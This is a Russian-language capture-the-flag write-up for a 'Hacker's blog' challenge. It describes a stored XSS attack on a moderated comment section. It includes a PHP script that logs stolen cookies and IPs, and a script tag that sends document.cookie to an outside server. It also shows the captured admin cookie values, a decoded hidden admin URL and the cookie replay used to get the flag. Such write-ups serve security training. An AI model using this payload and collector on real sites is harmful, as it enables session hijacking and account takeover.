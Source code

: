 ﻿# Hacker's blog

![Site](/img/1.png)

1. Заходим на хакерский блог, видим статьи. Переходим в любую статью и обнаруживаем комментарии.
2. Пробуем что-нибудь написать. Видим, что стоит премодерация (10 мин) - значит админ просматривает комментарии и удаляет плохие комментарии.
3. Пробуем осуществить XSS атаку. Пишем простенький код для принятия куков на своем веб-сервере:
```php
<?php
$text = urldecode($_SERVER['QUERY_STRING']);
if (!empty($_SERVER['HTTP_CLIENT_IP'])) 
{
	$ip=$_SERVER['HTTP_CLIENT_IP'];
}
elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR']))
{
	$ip=$_SERVER['HTTP_X_FORWARDED_FOR'];
}
else
{
	$ip=$_SERVER['REMOTE_ADDR'];
}
$file=fopen("file.txt", "a");
fwrite ($file, $text.PHP_EOL);
fwrite ($file, $ip.PHP_EOL);
fclose($file);
?>
```
5. Далее пишем в поле текст JS, который будет воровать куки:
```js
<script>var img=new Image();img.src="http://site.ru/xss.php?"+ encodeURI(document.cookie);</script>
```
4. Ждем 10 минут, смотрим полученные куки. `password=e0377f6e85d987d81e96c0381c789360fe90547bdf9be3b5082a492b9c4184f7; login=admin`
5. Теперь необходимо где-то применить полученные куки. Для этого ищем админку или авторизацию. На любой странице можно найти комментарий: `Secret admin panel: aHR0cDovLzEwLjAuNy4yMTY6NTQzMzcvYWRtaW42NDY0MS5waHA=`.  Раскодируем base64, получаем - http://10.0.7.216:54337/admin64641.php
6. Видим надпись: "Неверный логин или пароль! Доступ запрещен!". Используем любое расширение для назначения куков. Для Firefox - https://addons.mozilla.org/ru/firefox/addon/cookies-manager-plus/developers 
7. На странице `admin64641.php` видим флаг.

